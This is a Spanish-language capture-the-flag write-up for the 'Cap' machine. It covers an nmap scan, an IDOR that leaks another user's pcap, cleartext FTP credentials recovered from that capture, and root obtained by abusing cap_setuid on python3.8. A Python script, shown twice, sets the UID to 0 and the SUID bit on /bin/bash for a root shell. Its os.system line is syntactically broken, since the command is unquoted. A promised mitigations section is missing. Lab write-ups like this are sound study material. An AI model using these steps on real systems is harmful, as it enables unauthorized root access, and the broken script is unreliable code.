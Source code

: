 # Cap — Writeup

**Resumen rápido**  
Escaneé la máquina y encontré servicios FTP, SSH y HTTP. En la web descubrí una funcionalidad para generar y descargar capturas de tráfico (pcaps). Aproveché un problema de control de acceso (IDOR) en ese servicio para descargar una pcap con tráfico de otro usuario; analizando la pcap encontré credenciales FTP en texto claro, con las que accedí a la máquina como `nathan`. Después de la fase de userland, identifiqué una capability inusual asignada a `python3.8` (`cap_setuid`), la cual me permitió, mediante un script de python, obtener privilegios más altos y leer `root.txt`.

---

## Tabla de contenidos
- [Reconocimiento](#reconocimiento)  
- [Enumeración y descubrimiento de IDOR / PCAPs](#enumeraci%C3%B3n-y-descubrimiento-de-idor--pcaps)  
- [Análisis de la pcap y acceso como `nathan`](#an%C3%A1lisis-de-la-pcap-y-acceso-como-nathan)  
- [Escalada de privilegios (resumen de alto nivel)](#escalada-de-privilegios-resumen-de-alto-nivel)  
- [Cadena de explotación (resumen)](#cadena-de-explotaci%C3%B3n-resumen)  
- [Mitigaciones y detección](#mitigaciones-y-detecci%C3%B3n)  
- [Appendix — comandos de enumeración (sin cambios peligrosos)](#appendix--comandos-de-enumeraci%C3%B3n-sin-cambios-peligrosos)

---

## Reconocimiento

Escaneé la máquina para descubrir servicios TCP abiertos:

- Ejecuté un scan rápido y detecté los puertos **21 (FTP)**, **22 (SSH)** y **80 (HTTP)** abiertos.  
- Accedí al servicio web en puerto 80 y encontré una interfaz administrativa orientada a seguridad/monitorización que permitía generar descargas de capturas de tráfico (pcaps).

---

## Enumeración y descubrimiento de IDOR / PCAPs

- Desde la interfaz web usé la funcionalidad de generación de capturas y observé que las capturas se indexaban en rutas del tipo `/data/<id>` (por ejemplo `/data/1`, `/data/2`).  
- Por pruebas de IDOR validé que era posible solicitar IDs arbitrarios; al comprobar `/data/0` obtuve una pcap que no correspondía a mi tráfico y que contenía información valiosa.  
- Descargué la pcap para su análisis local con Wireshark/tshark.

**Comandos útiles (uso documental):**
```bash
# Ejemplo de scan
nmap -sC -sV -p 21,22,80 <IP_OBJETIVO>

# Descargar pcap via HTTP (ejemplo)
wget http://<IP_OBJETIVO>/data/0 -O capture_0.pcap
````

---

## Análisis de la pcap y acceso como `nathan`

* Abrí la pcap en Wireshark y filtré por `ftp` / `ftp.request.command == "USER"` / `ftp.request.command == "PASS"` para localizar credenciales en texto claro.
* Encontré credenciales FTP para el usuario `nathan`. Con dichas credenciales pude:

  * Conectarme al servicio FTP y descargar `user.txt`.
  * Usar las mismas credenciales para autenticarme por SSH (si el servicio lo permitía), obteniendo acceso interactivo como `nathan`.

**Comandos útiles (documentales):**

```bash
# FTP (ejemplo interactivo)
ftp <IP_OBJETIVO>
# luego: USER nathan
#       PASS <contraseña encontrada>

# SSH (ejemplo)
ssh nathan@<IP_OBJETIVO>
```

---

## Escalada de privilegios (resumen de alto nivel)

* Para la fase de post-explotación busqué vectores típicos:

  * Listé binarios SUID (`find / -perm -4000 -user root 2>/dev/null`) para ver si había utilidades explotables.
  * Listé capabilities en el sistema (`getcap -r / 2>/dev/null`) para detectar binarios con capacidades inusuales.
* Observé que `/usr/bin/python3.8` (el intérprete Python) tenía una capability inusual asignada (`cap_setuid`). Esto representa un riesgo crítico si un intérprete general tiene capacidades que permiten cambiar UID, porque un intérprete permite ejecutar código arbitrario.
* Mediante una técnica avanzada de post-explotación aproveché la presencia de esa capability para obtener privilegios más altos y finalmente leer `root.txt`.

* script de python utilizado para cambiar la /bin/bash y añadirle el bit suid

```python
import os
os.setuid(0)
os.system(chmod u+s /bin/bash)
```
Tras esto sólo queda lanzar bash -p y obtenemos una shell con privilegios máximos

---

## Cadena de explotación (resumen)

1. Reconocimiento (nmap) → 21, 22, 80.
2. Identificación de funcionalidad de generación de pcaps en la web.
3. Abuso de un control de acceso (IDOR) en `/data/<id>` → descarga de una pcap ajena.
4. Análisis de la pcap → credenciales FTP en texto claro para `nathan`.
5. Acceso FTP/SSH con `nathan` → obtención de `user.txt`.
6. Enumeración local con `find` / `getcap` → detección de `cap_setuid` en `python3.8`.
7. Explotación para escalada a `root`.
8. Lectura de `root.txt`.

---

## Appendix — comandos de enumeración

> Los siguientes comandos se usan para enumeración/diagnóstico y documentación.

```bash
# Escaneo inicial
nmap -sC -sV -p 21,22,80 <IP_OBJETIVO>

# Descargar pcap demonstrativo desde la web
wget http://<IP_OBJETIVO>/data/0 -O capture_0.pcap

# Abrir la pcap en local (Wireshark/tshark)
wireshark capture_0.pcap
# o (filtrado con tshark)
tshark -r capture_0.pcap -Y ftp -V

# Buscar SUIDs (enumeración)
sudo find / -perm -4000 -user root 2>/dev/null

# Listar capabilities en el sistema (enumeración)
sudo getcap -r / 2>/dev/null

# Acceder por FTP/SSH (uso legítimo con credenciales encontradas)
# ftp <IP_OBJETIVO>
# ssh nathan@<IP_OBJETIVO>
```
```python
# Script para escalar privilegios explotando el set_uid en python3.8
import os
os.setuid(0)
os.system(chmod u+s /bin/bash)
```
